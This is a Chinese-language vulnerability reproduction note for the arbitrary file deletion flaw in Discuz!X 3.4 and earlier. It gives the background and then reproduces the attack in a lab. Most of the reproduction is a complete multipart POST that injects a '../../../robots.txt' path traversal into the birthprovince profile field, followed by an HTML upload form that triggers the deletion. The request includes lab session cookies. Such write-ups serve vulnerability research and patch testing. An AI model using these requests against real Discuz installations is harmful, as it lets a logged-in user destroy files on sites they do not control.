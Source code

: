 # Discuz!X ≤3.4 任意文件删除漏洞

> 漏洞说明

Discuz!X社区软件，是一个采用PHP 和MySQL 等其他多种数据库构建的性能优异、功能全面、安全稳定的社区论坛平台。

2017年9月29日，Discuz!修复了一个安全问题用于加强安全性，这个漏洞会导致前台用户可以导致任意删除文件漏洞。

2017年9月29日，知道创宇404 实验室开始应急，经过知道创宇404实验室分析确认，该漏洞于2014年6月被提交到Wooyun漏洞平台，Seebug漏洞平台收录了该漏洞，漏洞编号ssvid-93588。该漏洞通过配置属性值，导致任意文件删除。

经过分析确认，原有的利用方式已经被修复，添加了对属性的formtype判断，但修复方式不完全导致可以绕过，通过模拟文件上传可以进入其他unlink条件，实现任意文件删除漏洞。



> 前提条件

版本：Discuz!X <= 3.4



> 利用工具



> 漏洞复现

安装环境，数据库地址db，其他默认

![image-20221231135011841](../img/Discuz_任意文件删除/image-20221231135011841.png)

访问http://192.168.40.77/robots.txt

![image-20221231135122141](../img/Discuz_任意文件删除/image-20221231135122141.png)

创建普通用户登录后在个人资料设置页找到用户formhash

![image-20221231140201590](../img/Discuz_任意文件删除/image-20221231140201590.png)

带上cookie和formhash发送数据包

```http
POST http://192.168.40.77/home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: 192.168.40.77
Content-Length: 367
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: CFADMIN_LASTPAGE_ADMIN=%2FCFIDE%2Fadministrator%2Fhomepage%2Ecfm; seraph.confluence=524289%3A811d881b4cd8cc25b1959b3e1cbddba67d692696; DRf_sid=EBLzRD; DRf_auth=1ad8KXYtvz%2FSvlBgaun%2BLDPX7XUsPFGuWSdf665nohKCtf1tqXcZz3vAZDhyS%2BJ2l6pRDt5rh%2Fj351TDDH4c9Q; smile=1D1; DRf_fid2=1672464153; DRf_visitedfid=2; DRf_oldtopics=D13D14D; YVxj_2132_saltkey=NzaLMXxr; YVxj_2132_lastvisit=1672462246; YVxj_2132_sid=q8XCXc; YVxj_2132_seccode=1.cba9494f28785f45b9; YVxj_2132_ulastactivity=619emNtzjk4RwR86onCG5mGlNawj4K8%2BJRCgYekcgQKlpCGRs5xB; YVxj_2132_auth=d609UN%2FZjuCzDh5xMThBVkvTmtiKMs233PF79bk2xLS4NBq0LqipszZOSsdBuEpVhDXeYZF56lsZ94HN0Jy9; YVxj_2132_nofavfid=1; YVxj_2132_noticeTitle=1; YVxj_2132_home_diymode=1; YVxj_2132_sendmail=1; YVxj_2132_lastact=1672466715%09home.php%09spacecp; YVxj_2132_checkpm=1
Connection: close

------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="formhash"

155f3474
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="birthprovince"

../../../robots.txt
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="profilesubmit"

1
------WebKitFormBoundaryPFvXyxL45f34L12s--

```

![image-20221231140757136](../img/Discuz_任意文件删除/image-20221231140757136.png)

提交成功后用户出生地显示为所删目标文件

![image-20221231140904565](../img/Discuz_任意文件删除/image-20221231140904565.png)

创建一个上传页面

```html
<body>
    <form action="http://192.168.40.77/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=155f3474" method="post" enctype="multipart/form-data">
        <input type="file" name="birthprovince" />
        <input type="submit" value="upload" />
    </form>
</body>
```

上传任意图片

![image-20221231141654983](../img/Discuz_任意文件删除/image-20221231141654983.png)

如果无法上传可以手动添加cookie

![image-20221231142734690](../img/Discuz_任意文件删除/image-20221231142734690.png)

此时可以发现robots.txt文件成功删除、

![image-20221231142839290](../img/Discuz_任意文件删除/image-20221231142839290.png)